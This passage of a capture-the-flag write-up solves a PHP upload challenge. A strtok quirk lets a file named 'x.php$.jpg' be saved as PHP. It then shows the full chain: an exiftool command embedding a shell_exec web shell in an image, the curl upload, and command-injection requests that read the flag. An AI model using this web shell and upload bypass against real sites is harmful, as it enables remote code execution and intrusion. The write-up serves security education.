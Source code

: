 The weird line ```$fileName = strtok($fileName, chr(7841151584512418084));``` makes it easier to upload php code! ```chr(7841151584512418084)``` is ```$```, so if a file named ```a.php$.jpg``` is uploaded, it will be named ```a.php```.

## Exploitation

Firstly, create an image, for example, ```monkey.jpg```. It is a normal image.

Then inject a php code into image by [exiftool](https://github.com/exiftool/exiftool)

```sh
exiftool -comment='<?php echo shell_exec($_GET["c"]); ?>' monkey.jpg
```

**Note**: ```$_GET["c"]```, not ```$_GET['c']```!

Then rename a file

```sh
mv monkey.jpg monkey.php$.jpg
```

Upload file
```sh
curl -X POST -i -F "file=@monkey.php$.jpg" -F "name=hello" -i http://35.222.114.240:8002/chal/upload.php | grep href
```
```
File uploaded successfully. <a href='uploaded/40bb9a2089b6040bd97aa81bedf9dc759cbb64d842b14457d3ee014888d076b0/monkey.php' target='_blank'>Open File</a>
```

The flag is at ```/var/www/html/chal/REDACTED.txt```, and the uploaded file is at ```/var/www/html/chal/uploaded/generateHashedDirectory($userName)/myname.php```, so we need to travel back twice to read flag.

```sh
curl -i http://35.222.114.240:8002/chal/uploaded/40bb9a2089b6040bd97aa81bedf9dc759cbb64d842b14457d3ee014888d076b0/monkey.php?c=cd+../../\;+ls+-la --output output.txt
```

There it is
```sh
drwxr-x--- 1 root     ctf-player    4096 Dec 16 10:49 .
drwxrwxrwx 1 www-data www-data      4096 Dec 17 21:29 ..
-rwxr-x--- 1 root     ctf-player      69 Dec 16 10:36 s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
-rwxr-x--- 1 root     ctf-player    3939 Dec 16 10:36 upload.php
drwxrwxrwx 1 root     ctf-player 3551232 Dec 22 15:42 uploaded
```

Let's get the flag

```sh
curl -i http://35.222.114.240:8002/chal/uploaded/40bb9a2089b6040bd97aa81bedf9dc759cbb64d842b14457d3ee014888d076b0/monkey.php?c=cd+../../\;+cat+s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
```

The flag is
```
flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```